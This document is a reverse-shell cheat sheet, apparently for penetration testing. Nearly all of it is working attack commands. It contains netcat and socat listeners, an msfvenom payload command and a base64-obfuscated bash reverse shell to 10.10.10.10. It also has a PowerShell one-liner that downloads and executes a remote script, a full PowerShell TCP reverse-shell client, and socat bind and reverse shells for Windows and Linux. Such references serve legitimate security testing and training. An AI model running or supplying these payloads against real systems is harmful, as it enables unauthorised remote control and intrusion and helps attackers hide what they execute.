 ## Invoke listener for a reverse shell
```bash
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```
## Generate shell using msfvenom
```bash
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```
## Base64 technique
```bash
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```
## Upgrade / Stabilize Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
## Windows Reverse Shell
```cmd
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/revshell.ps1')
```
```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.10.0",4444);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
	$writer.Write("[spidersec]> ");
	$writer.Flush();
	$read = $null;
	while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$out = $out.split()
	        $res = [string](&$out[0] $out[1..$out.length]);
		if($res -ne $null){ $writer.WriteLine($res)}
	}
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
## Using socat
```bash
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Upgrade Normal Shell to Meterpreter (Metasploit)
[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources
- [https://www.revshells.com/](https://www.revshells.com/)